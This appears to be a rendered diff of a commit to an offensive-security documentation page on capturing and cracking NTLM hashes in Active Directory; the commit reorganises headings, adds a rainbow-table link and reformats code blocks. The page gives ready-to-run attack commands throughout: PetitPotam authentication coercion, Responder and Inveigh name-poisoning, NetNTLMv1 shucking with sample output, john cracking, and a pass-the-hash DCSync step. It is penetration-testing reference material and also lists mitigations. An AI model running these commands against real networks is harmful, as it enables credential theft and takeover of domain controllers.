

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/hash-capture.md, in a window 1280 px wide and 1400 px high, scrolled down 2569 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Rainbow table and markdown fix in hash capture

````diff
--- a/docs/active-directory/hash-capture.md
+++ b/docs/active-directory/hash-capture.md
@@ -15,7 +15,7 @@ reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel
 * **Level 4** - Domain controllers refuse LM responses. Clients use NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers refuse LM authentication (that is, they accept NTLM and NTLM 2).
 * **Level 5** - Domain controllers refuse LM and NTLM responses (accept only NTLM 2). Clients use NTLM 2 authentication, use NTLM 2 session security if the server supports it; domain controllers refuse NTLM and LM authentication (they accept only NTLM 2).A client computer can only use one protocol in talking to all servers. You cannot configure it, for example, to use NTLM v2 to connect to Windows 2000-based servers and then to use NTLM to connect to other servers. This is by design.
 
-## Capturing and cracking Net-NTLMv1/NTLMv1 hashes/tokens
+## Capturing Net-NTLMv1/NTLMv1 hashes
 
 > Net-NTLMv1 (NTLMv1) authentication tokens are used for network authentication. They are derived from a challenge/response DES-based algorithm with the user's NT-hash as symetric keys.
 
@@ -47,20 +47,22 @@ reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel
     PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
     ```
 
-* If you got some `NetNTLMv1 tokens`, you can try to **shuck** them online via [Shuck.Sh](https://shuck.sh/) or locally/on-premise via [ShuckNT](https://github.com/yanncam/ShuckNT/) to get NT-hashes corresponding from [HIBP database](https://haveibeenpwned.com/Passwords). If the NT-hash has previously leaked, the NetNTLMv1 is converted to NT-hash ([pass-the-hash](./hash-pass-the-hash.md) ready) instantly. The [shucking process](https://www.youtube.com/watch?v=OQD3qDYMyYQ&ab_channel=PasswordVillage) works for any NetNTLMv1 with or without ESS/SSP (challenge != `1122334455667788`) but mainly for user account (plaintext previsouly leaked).
+## Cracking Net-NTLMv1/NTLMv1 hashes
+
+* If you got some `NetNTLMv1 tokens`, you can try to **shuck** them online via [shuck.sh](https://shuck.sh/) or locally/on-premise via [ShuckNT](https://github.com/yanncam/ShuckNT/) to get NT-hashes corresponding from [HIBP database](https://haveibeenpwned.com/Passwords). If the NT-hash has previously leaked, the NetNTLMv1 is converted to NT-hash ([pass-the-hash](./hash-pass-the-hash.md) ready) instantly. The [shucking process](https://www.youtube.com/watch?v=OQD3qDYMyYQ) works for any NetNTLMv1 with or without ESS/SSP (challenge != `1122334455667788`) but mainly for user account (plaintext previsouly leaked).
 
     ```ps1
     # Submit NetNTLMv1 online to https://shuck.sh/get-shucking.php
     # Or shuck them on-premise via ShuckNT script:
     $ php shucknt.php -f tokens-samples.txt -w pwned-passwords-ntlm-reversed-ordered-by-hash-v8.bin
 
- [...]
- 10 hashes-challenges analyzed in 3 seconds, with 8 NT-Hash instantly broken for pass-the-hash and 1 that can be broken via crack.sh for free.
- [INPUT] ycam::ad:DEADC0DEDEADC0DE00000000000000000000000000000000:70C249F75FB6D2C0AC2C2D3808386CCAB1514A2095C582ED:1122334455667788
-         [NTHASH-SHUCKED] 93B3C62269D55DB9CA660BBB91E2BD0B
+    [...]
+    10 hashes-challenges analyzed in 3 seconds, with 8 NT-Hash instantly broken for pass-the-hash and 1 that can be broken via crack.sh for free.
+    [INPUT] ycam::ad:DEADC0DEDEADC0DE00000000000000000000000000000000:70C249F75FB6D2C0AC2C2D3808386CCAB1514A2095C582ED:1122334455667788
+    [NTHASH-SHUCKED] 93B3C62269D55DB9CA660BBB91E2BD0B
     ```
 
-* If you got some `NetNTLMv1 tokens`, you can also try to crack them via [Crack.Sh](https://crack.sh/) (cloud service when available, more time and potentially chargeable). For this you need to format them to submit them on [Crack.Sh](https://crack.sh/netntlm/). The Converter of [Shuck.Sh](https://shuck.sh/) can be used to convert format easily.
+* If you got some `NetNTLMv1 tokens`, you can also try to crack them via [crack.sh](https://crack.sh/) (cloud service when available, more time and potentially chargeable). For this you need to format them to submit them on [crack.sh](https://crack.sh/netntlm/). The converter of [shuck.sh](https://shuck.sh/) can be used to format easily.
 
     ```ps1
     # When there is no-ESS/SSP and the challenge is set to 1122334455667788, it's free (0$):
@@ -72,7 +74,7 @@ reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel
     $NETNTLM$DEADC0DEDEADC0DE$507E2A2131F4AF4A299D8845DE296F122CA076D49A80476E
     ```
 
-* Finaly, if no [Shuck.Sh](https://shuck.sh/) nor [Crack.Sh](https://crack.sh/) can be used, you can try to break NetNTLMv1 with Hashcat / John The Ripper
+* Finaly, if no [shuck.sh](https://shuck.sh/) nor [crack.sh](https://crack.sh/) can be used, you can try to break NetNTLMv1 with Hashcat / John The Ripper. Use [Net-NTLMv1 Rainbow Tables](https://tables.blurbdust.pw/) to speed up the plain text recovery.
 
     ```ps1
     john --format=netntlm hash.txt
@@ -83,13 +85,13 @@ reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel
 
 * Now you can DCSync using the Pass-The-Hash with the DC machine account
 
-:warning: NetNTLMv1 with ESS / SSP (Extended Session Security / Security Support Provider) changes the final challenge by adding a new alea (!= `1122334455667788`, so chargeable on [Crack.Sh](https://crack.sh/)).
+:warning: NetNTLMv1 with ESS / SSP (Extended Session Security / Security Support Provider) changes the final challenge by adding a new alea (!= `1122334455667788`, so chargeable on [crack.sh](https://crack.sh/)).
 
 :warning: NetNTLMv1 format is `login::domain:lmresp:ntresp:clientChall`. If the `lmresp` contains a **0's-padding** this means that the token is protected by **ESS/SSP**.
 
-:warning: NetNTLMv1 final challenge is the Responder's challenge itself (`1122334455667788`) when there is no ESS/SSP. If ESS/SSP is enabled, the final challenge is the first 8 bytes of the MD5 hash from the concatenation of the client challenge and server challenge. The details of the algorithmic generation of a NetNTLMv1 are illustrated on the [Shuck.Sh Generator](https://shuck.sh/generator.php) and detailed in [MISCMag#128](https://connect.ed-diamond.com/misc/misc-128/shuck-hash-before-trying-to-crack-it).
+:warning: NetNTLMv1 final challenge is the Responder's challenge itself (`1122334455667788`) when there is no ESS/SSP. If ESS/SSP is enabled, the final challenge is the first 8 bytes of the MD5 hash from the concatenation of the client challenge and server challenge. The details of the algorithmic generation of a NetNTLMv1 are illustrated on the [shuck.sh Generator](https://shuck.sh/generator.php) and detailed in [MISCMag#128](https://connect.ed-diamond.com/misc/misc-128/shuck-hash-before-trying-to-crack-it).
 
-:warning: If you get some tokens from other tools ([hostapd-wpe](https://github.com/OpenSecurityResearch/hostapd-wpe) or [chapcrack](https://github.com/moxie0/chapcrack)) in other formats, like tokens starting with the prefix `$MSCHAPv2$`, `$NETNTLM$` or `$99$`, they correspond to a classic NetNTLMv1 and can be converted from one format to another [here](https://shuck.sh/converter.php).
+:warning: If you get some tokens from other tools ([OpenSecurityResearch/hostapd-wpe](https://github.com/OpenSecurityResearch/hostapd-wpe) or [moxie0/chapcrack](https://github.com/moxie0/chapcrack)) in other formats, like tokens starting with the prefix `$MSCHAPv2$`, `$NETNTLM$` or `$99$`, they correspond to a classic NetNTLMv1 and can be converted from one format to another [here](https://shuck.sh/converter.php).
 
 **Mitigations**:
 
@@ -99,16 +101,23 @@ reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel
 
 If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.
 
-```powershell
-# https://github.com/lgandx/Responder
-$ sudo ./Responder.py -I eth0 -wfrd -P -v
+* [lgandx/Responder](https://github.com/lgandx/Responder)
 
-# https://github.com/Kevin-Robertson/InveighZero
-PS > .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]
+    ```powershell
+    sudo ./Responder.py -I eth0 -wfrd -P -v
+    ```
 
-# https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1
-PS > Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
-```
+* [Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)
+
+    ```powershell
+    .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]
+    ```
+
+* [EmpireProject/Invoke-Inveigh.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1)
+
+    ```powershell
+    Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
+    ```
 
 Crack the hashes with Hashcat / John The Ripper
 
````
